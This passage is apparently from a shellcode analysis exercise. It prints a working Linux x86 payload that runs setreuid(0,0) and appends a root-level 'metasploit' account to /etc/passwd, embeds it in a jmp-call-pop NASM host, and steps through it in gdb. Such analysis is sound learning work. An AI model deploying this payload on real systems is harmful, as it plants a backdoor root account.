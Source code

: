 #### Getting the Formatted Shellcode
```console
root# python formatHex.py
0x31,0xc9,0x89,0xcb,0x6a,0x46,0x58,0xcd,0x80,0x6a,0x05,\
0x58,0x31,0xc9,0x51,0x68,0x73,0x73,0x77,0x64,0x68,0x2f,\
0x2f,0x70,0x61,0x68,0x2f,0x65,0x74,0x63,0x89,0xe3,0x41,\
0xb5,0x04,0xcd,0x80,0x93,0xe8,0x28,0x00,0x00,0x00,0x6d,\
0x65,0x74,0x61,0x73,0x70,0x6c,0x6f,0x69,0x74,0x3a,0x41,\
0x7a,0x2f,0x64,0x49,0x73,0x6a,0x34,0x70,0x34,0x49,0x52,\
0x63,0x3a,0x30,0x3a,0x30,0x3a,0x3a,0x2f,0x3a,0x2f,0x62,\
0x69,0x6e,0x2f,0x73,0x68,0x0a,0x59,0x8b,0x51,0xfc,0x6a,\
0x04,0x58,0xcd,0x80,0x6a,0x01,0x58,0xcd,0x80
```

#### Adding the shellcode to the host program
```nasm
; Filename: jmpCallPop.nasm
; Author:  Bobby Cooke
global _start
section .text
_start:
; 1. Jump to where our Shellcode string is
  jmp short call_shellcode
jmp2_shellcode:
; 3. Now that the memory location of our string is on the top of the
;     stack, we will pass control to it using the jmp instruction.
  pop eax
  jmp eax
call_shellcode:
; 2. Call to the instruction that will jump us into our Shellcode
;    - Call is like jump, but stores the memory location of the next
;       instruction onto the Stack; which is our Shellcode.
  call jmp2_shellcode
  shellcode: db 0x31,0xc9,0x89,0xcb,0x6a,0x46,0x58,0xcd,0x80,0x6a,0x05,\
0x58,0x31,0xc9,0x51,0x68,0x73,0x73,0x77,0x64,0x68,0x2f,\
0x2f,0x70,0x61,0x68,0x2f,0x65,0x74,0x63,0x89,0xe3,0x41,\
0xb5,0x04,0xcd,0x80,0x93,0xe8,0x28,0x00,0x00,0x00,0x6d,\
0x65,0x74,0x61,0x73,0x70,0x6c,0x6f,0x69,0x74,0x3a,0x41,\
0x7a,0x2f,0x64,0x49,0x73,0x6a,0x34,0x70,0x34,0x49,0x52,\
0x63,0x3a,0x30,0x3a,0x30,0x3a,0x3a,0x2f,0x3a,0x2f,0x62,\
0x69,0x6e,0x2f,0x73,0x68,0x0a,0x59,0x8b,0x51,0xfc,0x6a,\
0x04,0x58,0xcd,0x80,0x6a,0x01,0x58,0xcd,0x80
```

#### Compiling the Host Program
```console
root# nasm -f elf32 jmpCallPop.nasm -o jmpCallPop.o
root# ld jmpCallPop.o -o jmpCallPop
```

#### Running with gdb and setting Breakpoint
```console
root# gdb ./jmpCallPop
gdb-peda$ info functions
  0x0804806a  shellcode
gdb-peda$ b shellcode
  Breakpoint 1 at 0x804806a
gdb-peda$ run
```
